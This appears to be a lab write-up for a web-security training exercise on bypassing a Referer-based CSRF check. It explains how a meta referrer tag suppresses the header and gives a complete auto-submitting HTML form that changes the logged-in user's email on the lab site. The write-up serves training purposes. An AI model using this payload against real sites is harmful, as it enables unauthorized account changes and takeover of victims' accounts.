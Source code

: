 # Lab: CSRF where Referer validation depends on header being present


The application check the content of the referer header, if there is one the application compare it with the vulnerable lab url. (https://MY-LAB.web-security-academy.net)

Setting up the following header: 
```html
<meta name="referrer" content="none">
```
will delete the referer header from the request. In this case the backend skip the test.

Other value for the content attribute:  none, never, ..


## payload 

```html
<meta name="referrer" content="none">
<form id="login-form" name="change-email-form" action="https://MY-LAB.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="nothing23@nothing.co">
</form>
<script>
    let formulaire=document.getElementById("login-form");
    formulaire.submit();
</script>
```
